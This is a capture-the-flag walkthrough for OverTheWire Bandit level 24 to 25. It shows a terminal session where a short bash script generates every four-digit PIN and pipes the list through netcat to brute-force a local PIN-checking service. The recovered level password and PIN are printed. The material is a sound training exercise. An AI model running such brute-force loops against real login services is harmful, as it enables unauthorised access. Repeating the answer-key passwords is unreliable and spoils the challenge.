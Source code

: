 Another simple challenge!
![Bandit24](https://github.com/sreekesari-vangeepuram/overthewire/blob/master/overthewire/bandit/bandit24/level24-%3Elevel25.png)

Let's see what we have to do:
```
bandit24@bandit:~$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
bandit24  6927  0.0  0.1  21148  4928 pts/0    Ss   13:45   0:00 -bash
bandit24  9309  0.0  0.1  21152  4960 pts/46   Ss   13:47   0:00 -bash
bandit24 17865  0.1  0.1  39632  7524 pts/0    S+   13:57   0:00 vim brute.sh
bandit24 21631  0.8  0.1  39764  7520 pts/46   S+   14:02   0:00 vim brut3.sh
bandit24 22292  0.0  0.0  23948  3540 pts/45   S+   13:34   0:00 nano dictionary.py
bandit24 22373  0.1  0.2  27728  9328 pts/3    S+   14:03   0:00 python3 pincode.py
bandit24 22858  0.0  0.1  21180  4996 pts/62   Ss+  13:35   0:00 -bash
bandit24 23613  0.8  0.1  21148  4824 pts/22   Ss   14:03   0:00 -bash
bandit24 23870  0.0  0.0  19188  2212 pts/22   R+   14:04   0:00 ps aux
bandit24 27657  0.2  0.6  49520 24876 ?        Ss   13:18   0:07 tmux
bandit24 27658  0.0  0.1  21188  5144 pts/45   Ss   13:18   0:00 -bash
bandit24 27669  0.0  0.1  21188  4828 pts/50   Ss   13:19   0:00 -bash
bandit24 27846  0.0  0.1  30712  8032 pts/50   S+   13:19   0:00 python
bandit24 28464  0.0  0.1  21168  5120 pts/3    Ss   13:20   0:00 -bash
bandit24@bandit:~$ mkdir /tmp/bruteforce
mkdir: cannot create directory ‘/tmp/bruteforce’: File exists
bandit24@bandit:~$ mkdir /tmp/bruteforce_for_banidt25
bandit24@bandit:~$ cd /tmp/bruteforce_for_banidt25
bandit24@bandit:/tmp/bruteforce_for_banidt25$ ls
bandit24@bandit:/tmp/bruteforce_for_banidt25$ nano combgen.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:/tmp/bruteforce_for_banidt25$ ls
combgen.sh
bandit24@bandit:/tmp/bruteforce_for_banidt25$ chmod +x combgen.sh 
bandit24@bandit:/tmp/bruteforce_for_banidt25$ cat combgen.sh 
#!/bin/bash

for i in {0000..9999}
  do
    echo -e "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> combinations.txt
  done
bandit24@bandit:/tmp/bruteforce_for_banidt25$ ./combgen.sh 
bandit24@bandit:/tmp/bruteforce_for_banidt25$ ls
combgen.sh  combinations.txt
bandit24@bandit:/tmp/bruteforce_for_banidt25$ nano bruteforce.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:/tmp/bruteforce_for_banidt25$ cat bruteforce.sh 
#!/bin/bash

cat ./combinations.txt | nc localhost 30002 | grep -n password
bandit24@bandit:/tmp/bruteforce_for_banidt25$ chmod +x bruteforce.sh 
bandit24@bandit:/tmp/bruteforce_for_banidt25$ ./bruteforce.sh 
1:I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
2591:The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
bandit24@bandit:/tmp/bruteforce_for_banidt25$
```

This is really cool challenge, where we are executing a real password cracking script. 
If you've practised alteast a bit of bash you might've got some idea on this.

Otherwise try to bruteforce with a code written in  Python or C from the remote-machine itself on the socket `localhost:30002`.
By-the-way the PINCODE is: `2588`.

Hope you've learnt something new from this [if you don't know this before/didn't strike to you during the start].

Now, let's use the password `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG` to log into the remote-machine as `bandit25`.

**Warning: Please, first try Level 25 -> Level 26! Otherwise it's useless to simply cpy-pst the command[s]/password[s].
